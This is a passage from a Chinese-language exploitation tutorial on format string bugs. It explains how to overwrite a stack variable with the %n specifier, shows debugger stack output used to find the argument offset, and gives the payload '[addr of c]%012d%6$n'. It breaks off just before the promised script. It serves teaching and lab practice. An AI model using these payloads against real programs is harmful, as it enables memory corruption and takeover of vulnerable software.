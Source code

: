 makefile在對應的文件夾中。而無論是覆蓋哪個地址的變量，我們基本上都是構造類似如下的payload

```text
...[overwrite addr]....%[overwrite offset]$n
```

其中...表示我們的填充內容，overwrite addr 表示我們所要覆蓋的地址，overwrite offset地址表示我們所要覆蓋的地址存儲的位置爲輸出函數的格式化字符串的第幾個參數。所以一般來說，也是如下步驟

- 確定覆蓋地址
- 確定相對偏移
- 進行覆蓋

### 覆蓋棧內存

#### 確定覆蓋地址

首先，我們自然是來想辦法知道棧變量c的地址。由於目前幾乎上所有的程序都開啓了aslr保護，所以棧的地址一直在變，所以我們這裏故意輸出了c變量的地址。

#### 確定相對偏移

其次，我們來確定一下存儲格式化字符串的地址是printf將要輸出的第幾個參數()。 這裏我們通過之前的泄露棧變量數值的方法來進行操作。通過調試

```shell
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcd0c', 'l8']
8
0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10	 ← $esp
0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
0xffffcd18│+0x0c: 0x000000c2
0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd28│+0x1c: "%d%d"	 ← $eax
```

我們可以發現在0xffffcd14處存儲着變量c的數值。繼而，我們再確定格式化字符串'%d%d'的地址0xffffcd28相對於printf函數的格式化字符串參數0xffffcd10的偏移爲0x18，即格式化字符串相當於printf函數的第7個參數，相當於格式化字符串的第6個參數。

#### 進行覆蓋

這樣，第6個參數處的值就是存儲變量c的地址，我們便可以利用%n的特徵來修改c的值。payload如下

```text
[addr of c]%012d%6$n
```

addr of c 的長度爲4，故而我們得再輸入12個字符纔可以達到16個字符，以便於來修改c的值爲16。

具體腳本如下
